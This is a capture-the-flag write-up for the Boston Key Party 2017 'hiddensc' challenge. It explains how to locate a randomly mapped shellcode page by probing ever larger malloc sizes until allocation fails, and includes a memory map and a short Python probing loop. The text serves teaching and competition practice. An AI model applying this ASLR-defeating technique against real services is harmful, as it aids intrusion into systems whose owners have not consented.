 # hiddensc

```
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```

During the competition, I keep thinking how can trigger error such as `double free`, so that the `memory map` returned along with error message will contain the hidden address, but just can't find how to make it work ...  
After the competition, thanks to [this elaborate article](https://github.com/sebel1010/ctf-writeups/blob/master/2017/boston-key-party/hiddensc.md), I knew my original thought was wrong direction XD, and finally figured out this fantastic method ! So I record it here for memory .

## Analyze

This challenge is a fork server, which `mmap` a page of memory to store shellcode, while the address is random .  

And the program provide two features:  

* `[a]lloc` can let us allocate some space and decide whether `free` it right away .  
* `[j]ump` can let us assign an address and jump to it .

So if we know the random address, we can get shell immediately !

## Exploit

> Before doing following work, be sure to do the setting :  
> `echo 1 | sudo tee /proc/sys/vm/overcommit_memory`  
> This will enable us to allocate huge amount of memory to do the exploit !  
> reference :  
> [Overcommit and OOM](http://www.win.tue.nl/~aeb/linux/lk/lk-9.html#ss9.6)  
> [overcommit document](https://www.kernel.org/doc/Documentation/vm/overcommit-accounting)

By observation, when we allocating huge size of memory, the allocated space may locate at :

* **before the page storing shellcode**
* after the shellcode page and before code segment
* between heap and some libraries

```
    Start Addr           End Addr       Size     Offset objfile
 0x651af4d0000     0x4e51af4d6000 0x480000006000        0x0
0x4e51af4d6000     0x4e51af4d7000     0x1000        0x0 /root/CTF/bostonKeyParty2017/hiddensc/poop.sc
0x5220d8d33000     0x5620d8d34000 0x40000001000        0x0
0x5620d8d34000     0x5620d8d36000     0x2000        0x0 /root/CTF/bostonKeyParty2017/hiddensc/hiddensc
0x5620d8f36000     0x5620d8f37000     0x1000     0x2000 /root/CTF/bostonKeyParty2017/hiddensc/hiddensc
0x5620d8f37000     0x5620d8f38000     0x1000     0x3000 /root/CTF/bostonKeyParty2017/hiddensc/hiddensc
0x5620d95e5000     0x5620d9606000    0x21000        0x0 [heap]
0x5777b8000000     0x5777b8021000    0x21000        0x0
0x5777b8021000     0x5777bc000000  0x3fdf000        0x0
0x5777bd48e000     0x7f77bd490000 0x280000002000        0x0
0x7f77bd490000     0x7f77bd49b000     0xb000        0x0 /root/glibc-2.19/64/lib/libnss_files-2.19.so
0x7f77bd49b000     0x7f77bd69a000   0x1ff000     0xb000 /root/glibc-2.19/64/lib/libnss_files-2.19.so
...
```

**If before the page storing shellcode has biggest space**, in above case, 0x4e51af4d6000 bytes, we can use following method to get the random address !  

Keep `malloc` and `free` right away with increased size. When the `FAIL`  message returned to us, increase size with smaller scale each time and keep doing the `malloc` and `free` work .  
After we can't increase the size anymore, we can deduce that the size of allocated space is the random address where the shellcode is located, at least not far away.  
This is because with the biggest possible allocated request, only the biggest continuous space can handle, and this is why the prerequisite exist !

```python
for i in range(11, 2, -1):
    for j in range(16):
        size += (1 << 4*i)
        print 'try malloc({})'.format(hex(size))
        if not alloc(size):
            size -= (1 << 4*i)
            break
```


